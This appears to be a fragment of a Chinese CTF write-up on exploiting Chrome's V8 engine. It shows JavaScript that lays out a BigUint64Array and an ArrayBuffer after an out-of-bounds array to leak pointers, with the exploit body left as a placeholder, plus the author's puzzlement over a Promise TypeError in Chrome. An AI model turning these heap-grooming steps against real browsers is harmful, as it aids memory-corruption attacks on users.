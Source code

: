 那既然有了越界数组，在oob_arr后面布置一个BigUint64Array和ArrayBuffer就ok了：

```javascript
class myArray extends Array{
    constructor(size){
        super(size);
        this.status = 0;
        this.then = Promise.prototype.then;
        
    }
};

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
};

function gc(){
    for(var i = 0;i < 0x10;i++){
        var a = new ArrayBuffer(0x1000000);
    }
}

var oob_arr = new myArray(0x10);
oob_arr.fill(1.1);
var uint64array = new BigUint64Array(2);        // for leak external_pointer 
var padding = {};  
var target_buffer = new LeakArrayBuffer(0x3000);

Promise.resolve(oob_arr);

setTimeout(()=>{
    // do exploit
},100);
```



但是，d8下是没问题了，到了题目的chrome浏览器却出现了毛病，它抛异常了：

```cpp
Uncaught (in promise) TypeError: Method Promise.prototype.then called on incompatible receiver [object Array]
    at myArray.then (<anonymous>)
```

我去找了下别人的exp，也会抛异常，。。。。。这是为什么啊 orz，无法理解


